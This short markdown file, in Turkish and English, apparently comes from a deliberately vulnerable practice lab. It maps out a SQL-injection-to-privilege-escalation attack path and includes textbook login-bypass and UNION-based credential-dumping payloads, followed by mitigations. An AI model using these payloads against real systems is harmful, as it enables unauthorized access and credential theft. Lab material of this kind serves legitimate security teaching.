

# Attack Path 1: SQL Injection → Data Leak → Privilege Escalation

## Overview
Kullanıcı input'undan SQLi ile DB sorgusu manipüle et → hassas veri leak → stolen creds ile priv esc.

## Mermaid Diagram


## Adım Adım Senaryo (Walkthrough)

1. **Recon** – `/search?query=test'` dene, error görürsen vulnerable.
2. **Exploit** – `' UNION SELECT username, password FROM users --` payload ile creds dump.
3. **Leak** – Hashes'i Hashcat ile kır veya direkt weak creds kullan.
4. **Escalation** – Stolen creds ile `/login` → admin session.
5. **Exfil** – Admin'den loot endpoint'ini tetikle.

## Vulnerable Endpoints
- `/vuln/sqli/login` - Login bypass
- `/vuln/sqli/search?q=` - UNION based injection

## Example Payloads
```sql
-- Login Bypass
' OR '1'='1' --
admin'--

-- UNION Based
' UNION SELECT 1,2,3,4,5--
' UNION SELECT username, password, 3, 4, 5 FROM users--
```

## Difficulty
**Easy-Medium**

## Mitigation
- Prepared statements / Parameterized queries
- Input sanitization
- WAF rules for SQLi patterns
